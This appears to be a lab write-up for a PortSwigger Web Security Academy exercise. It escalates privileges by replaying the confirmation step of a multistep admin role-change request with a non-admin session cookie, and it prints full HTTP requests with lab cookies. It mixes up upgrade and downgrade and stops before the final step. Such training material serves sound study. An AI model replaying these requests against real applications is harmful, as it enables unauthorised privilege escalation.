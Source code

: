 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2b3b072d-aeaf-4368-bc25-5daadcd9f6ca)


## Solution :

First  can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`. 

Then we can play around with the requests by loggin in as wiener & exploiting the flaw in the multistep process.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e8440ea8-045e-4bc0-a922-053fb4fc4cc1)

Once logged in , we can go to admin panel & modify other user's privileges.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/480c8069-0754-4dc4-b94b-4004f735ac7d)


```http
POST /admin-roles HTTP/2
Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos&action=upgrade
```

Here we upgreaded privileges of carlos.

After modifying the privileges, we get a page like this,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4d9ae4ad-3442-41a0-be2f-9a636b1cee9d)

```http
POST /admin-roles HTTP/2

Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

action=upgrade&confirmed=true&username=wiener
```
We here have the admin's cookie - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` by which we can send the same request but with non admin cookie

Here note that we have a parameter called `confirmed=true/false` in the POST request  body which takes us to **/admin** .

So now we can try logging in as  **carlos** using the credentials given & try to promote ourselves as administrator.

When we try to upgrade ourself(wiener) as administrator, we get an error stating that we are not admin to perform this action,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa0de097-c33a-4a83-a28d-cf9fc7f85cc1)

Capture the above request and send it to repeater.

```http
POST /admin-roles HTTP/2

Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=A59zxwt0kaZ2sHnkECl29XC9Mxpcetgq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


action=downgrade&confirmed=true&username=wiener
```

Here we have the same request being sent, but this time we have the **cookie of wiener(non-admin)**.

Cookie of admin  - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` 
Cookie of wiener - `A59zxwt0kaZ2sHnkECl29XC9Mxpcetgq`


Let send the non admin request with the admin's session cookie.





